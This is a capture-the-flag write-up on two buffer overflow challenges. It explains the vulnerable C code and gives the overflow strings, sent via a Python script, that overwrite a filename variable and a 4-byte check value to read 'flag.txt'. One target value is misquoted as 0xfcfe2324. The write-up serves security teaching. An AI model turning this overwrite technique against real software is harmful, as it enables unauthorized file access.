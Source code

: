 # Buffer Overflow CTF5

This CTF includes two challenges. In each of them, we exploited a program with a buffer overflow vulnerability in order to access a file named "flag.txt".

## 1st flag

#### Source Code

The `main.c` script is simple:

- Create two character arrays, `meme_file` and `buffer`, with sizes 8 and 32, respectively.

```c
char meme_file[8] = "mem.txt\0";
char buffer[32];
```

- Read 40 characters of user input and store them in the `buffer`.

```c
scanf("%40s", &buffer);
```

- Open the file with the variable `meme_file`.

```c
FILE *fd = fopen(meme_file,"r");
```

- Attempts to read from the file, if it was found, and stores the content on the `buffer`. Prints `buffer`.

```c
while(1){
    if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
        printf("%s", buffer);
    } else {
        break;
    }
}
```

### Obtaining the flag

Before executing the python script, we have to create a payload to cause the buffer overflow. Since our input is limited to the command line, it would have to be a string with the following restrictions:

* Because `buffer` is 32 bytes, the length of the string needs to be bigger than that to create an overflow.
* The string has to contain the file name `flag.txt` immediately after the 32nd character in order to overwrite the `meme_file` variable.

We used the following string:
```python
"justtryingtocauseabufferoverlowflag.txt"
```

We modified the script to send it to the program.

```python
r.sendline(b"justtryingtocauseabufferoverlowflag.txt")
```
Running our script, we got the following output:

![Alt text](./images/image-5-1.png)


## 2nd flag

#### Source Code

`main.c` is really similar to the 1st challenge.

- Initialized three arrays: `meme_file` (9 bytes), `val` (4 bytes), and `buffer` (32 bytes).

```c
char meme_file[9] = "mem.txt\0\0";
char val[4] = "\xef\xbe\xad\xde";
char buffer[32];
```

Because `buffer` is next to `val` in memory and `meme_file` is next to `val`, we have to overwrite `val` to overwrite `meme_file`.

- Read 45 characters of input and store them.

```c
scanf("%45s", &buffer);
```

- Convert `val` into an integer pointer and compare the result with `0xfefc2324`.

```c
if(*(int*)val == 0xfefc2324) {
    ...
}
```

- If the previous values are equal, open the file stored in the `meme_file` variable.

```c
FILE *fd = fopen(meme_file,"r");
```

- Attempts to read the file, if it is found, and prints it's content.

```c
while(1){
    if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
        printf("%s", buffer);
    } else {
        break;
    }
}
```

We had to overflow `buffer` to overwrite the contents of `meme_file`, as well overwriting `val`, as the code could only be executed when `val` was equal to `0xfefc2324`.

### Obtaining the flag

We used the same python script for this challenge.

The string restrictions this time are as follows:

- The size of the string has to be bigger than 32 bytes so we could overflow the `buffer`.
- The bytes in the positions 32 to 36  have to contain the characters that are equal to `0xfcfe2324`.

```python
string[32:36] = "\x24\x23\xfc\xfe"
```

We used the following string:

```python
"justtryingtocauseabufferoverflow\x24\x23\xfc\xfeflag.txt"
```

Copying the string to the Python script so that it would be sent to the program.

```python
r.sendline(b"justtryingtocauseabufferoverflow\x24\x23\xfc\xfeflag.txt")
```

Executing the exploit gave us the following output:

![Alt text](./images/image-5-2.png)

